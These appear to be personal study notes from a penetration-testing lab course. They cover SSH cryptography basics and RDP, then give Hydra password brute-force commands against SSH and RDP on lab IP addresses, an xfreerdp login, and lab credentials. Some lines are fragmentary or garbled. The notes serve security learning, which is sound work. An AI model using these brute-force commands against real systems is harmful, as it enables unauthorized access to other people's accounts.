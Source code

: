 ## SSH
This service uses three different cryptography operations/methods: `symmetric` encryption, `asymmetric` encryption, and `hashing`.
dennis:rockstar
#### Symmetric Encryption

Symmetric encryption uses the `same key` for encryption and decryption. However, anyone who has access to the key could also access the transmitted data.
a key exchange procedure is needed for secure symmetric encryption.
`[Diffie-Hellman]`is a mathematical [method](https://en.wikipedia.org/wiki/Key-agreement_protocol "Key-agreement protocol") of securely generating a symmetric crypto key
[![](https://upload.wikimedia.org/wikipedia/commons/thumb/c/c8/DiffieHellman.png/409px-DiffieHellman.png)](https://en.wikipedia.org/wiki/File:DiffieHellman.png)
symmetrical cipher system can be used, such as AES, Blowfish, 3DES.

#### Asymmetrical Encryption
Asymmetric encryption uses `two SSH keys`: a `private key` and a `public key`. The private key must remain secret because only it can decrypt the messages that have been encrypted with the public key. If an attacker obtains the private key, which is often not password protected, he will be able to log in to the system without credentials. Once a connection is established, the server uses the public key for initialization and authentication. If the client can decrypt the message, it has the private key, and the SSH session can begin.

#### Hashing
The hashing method converts the transmitted data into another unique value. SSH uses hashing to confirm the authenticity of messages. This is a mathematical algorithm that only works in one direction.
irreversible.
#### Hydra - SSH
```shell-session
AhmaDb0x@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197 or smb or login page or ftp or mssql
```


## Remote Desktop Protocol (RDP)

network protocol that allows remote access to Windows systems via `TCP port 3389` by default.

Technically, the RDP is an application layer protocol in the IP stack and can use TCP and UDP for data transmission. The protocol is used by various official Microsoft apps, but it is also used in some third-party solutions.

#### Hydra - RDP
```shell-session
AhmaDb0x@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197
```
chris 789456123
try to use hydra command in a msf console (winrm) 

then u will be able to rdp the target
#### xFreeRDP
```shell-session
AhmaDb0x@htb[/htb]$ xfreerdp /v:10.129.202.136 /u:chris /p:789456123
```
hydra -L username.list -P password.list rdp://10.129.202.136

